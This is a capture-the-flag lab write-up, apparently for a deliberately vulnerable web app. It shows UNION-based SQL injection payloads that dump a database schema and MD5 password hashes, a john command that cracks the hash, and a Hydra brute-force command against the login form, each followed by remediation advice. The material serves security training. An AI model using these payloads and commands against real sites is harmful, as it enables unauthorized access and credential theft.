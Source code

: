 # SQLI Credentials

### Breach Exploit

From /?page=member we have an sql injection where we can dump all the db:

```
42 OR 1

First name: one
Surname : me

First name: two
Surname : me

First name: three
Surname : me

First name: Flag
Surname : GetThe
```

Get informations about tables:

```
42 UNION ALL SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES

Database: Member_Brute_Force
Table: db_default

Database: Member_Sql_Injection
Table: users

Database: Member_guestbook
Table: guestbook

Database: Member_images
Table: list_images

Database: Member_survey
Table: vote_dbs
```

Get informations about column name:

```
42 UNION ALL SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS

First name: db_default
Surname : id

First name: db_default
Surname : username

First name: db_default
Surname : password

First name: users
Surname : user_id

First name: users
Surname : first_name

First name: users
Surname : last_name

First name: users
Surname : town

First name: users
Surname : country

First name: users
Surname : planet

First name: users
Surname : Commentaire

First name: users
Surname : countersign

First name: guestbook
Surname : id_comment

First name: guestbook
Surname : comment

First name: guestbook
Surname : name

First name: list_images
Surname : id

First name: list_images
Surname : url

First name: list_images
Surname : title

First name: list_images
Surname : comment

First name: vote_dbs
Surname : id_vote

First name: vote_dbs
Surname : vote

First name: vote_dbs
Surname : nb_vote

First name: vote_dbs
Surname : subject
```

Dump the db_default table:

```
42 UNION ALL SELECT CONCAT(ID, 0x0A, USERNAME, 0x0A, PASSWORD), 42 FROM Member_Brute_Force.db_default

First name: 1
root
3bf1114a986ba87ed28fc1b5884fc2f8
Surname : 42

First name: 2
admin
3bf1114a986ba87ed28fc1b5884fc2f8
Surname : 42
```

Brute force the hash with john:

```
# john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt flag.txt
shadow      (?)
```

Use the credentials to fill the signin page and we get the flag.

### Fix Breach
Use prepared statements and parameterized queries. These are SQL statements that are sent to and parsed by the database server separately from any parameters. This way it is impossible for an attacker to inject malicious SQL.
```https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html```

### Documentation
```https://owasp.org/www-community/attacks/SQL_Injection```


# Brute_force_attack

### Breach Exploit
From http://x.x.x.x/?page=signin&username=admin&password=&Login=Login# we try to brute force the login

Using Hydra and 10k most common password: 
 Hydra v9.0 run at 2023-10-26 19:12:58 on 192.168.56.101 http-get-form (hydra -l admin -P 10kpassword.txt -F -o hydra.log x.x.x.x http-get-form /index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif)
```[80][http-get-form] host: 192.168.56.101   login: admin   password: shadow```

### Fix Breach
To prevent this:
-Detect brute force attempt and ban the address it's comming from 
-Add a captcha
-Add delay between login attempt to slow down
-Force users to use a strong enough password

### Documentation
```https://owasp.org/www-community/attacks/Brute_force_attack```